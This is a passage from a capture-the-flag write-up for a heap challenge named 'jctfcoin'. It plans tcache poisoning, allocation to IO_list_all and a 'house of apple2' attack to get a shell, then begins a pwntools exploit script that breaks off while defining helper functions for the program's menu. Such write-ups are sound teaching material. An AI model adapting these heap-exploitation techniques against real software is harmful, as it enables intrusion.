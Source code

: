 The following steps are quite natural, we do tcache poisoning with the overflow, alloc to `IO_list_all` and play house of apple2 to get shell.

### exp

```py
#!/usr/bin/env python3

from pwn import *

elf = ELF("./jctfcoin")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf

context(arch='amd64', os='linux', log_level='debug')

# p = remote("jctfcoin.nc.jctf.pro", 1337)
p = process(elf.path)

def menu():
    return p.recvuntil(b'Give me your command: ')


def new_user(idx, name, name_len=None):
    if name_len == None:
        name_len = len(name)

    p.sendline(b'1')
    p.sendlineafter(b'Enter user index: ', str(idx).encode())
    p.sendlineafter(b'Enter user name length: ', str(name_len).encode())
    p.sendlineafter(b'Enter user name: ', name)
    
    return menu()

def view(idx):
    p.sendline(b'2')
    p.sendlineafter(b'Enter user index: ', str(idx).encode())
    p.recvuntil(b'User balance: ')
    res = int(p.recvuntil(b' jCTFcoins')[:-10])
    menu()
    return res


def rename(idx, name):
    p.sendline(b'3')
    p.sendlineafter(b'Enter user index: ', str(idx).encode())
    p.sendlineafter(b'Enter new name: ', name)
    return menu()


def rm(idx):
    p.sendline(b'4')
    p.sendlineafter(b'Enter user index: ', str(idx).encode())
    return menu()


def mine(idx, amnt, desc, desc_len=None):
    if desc_len == None:
        desc_len = len(desc)

    p.sendline(b'5')

```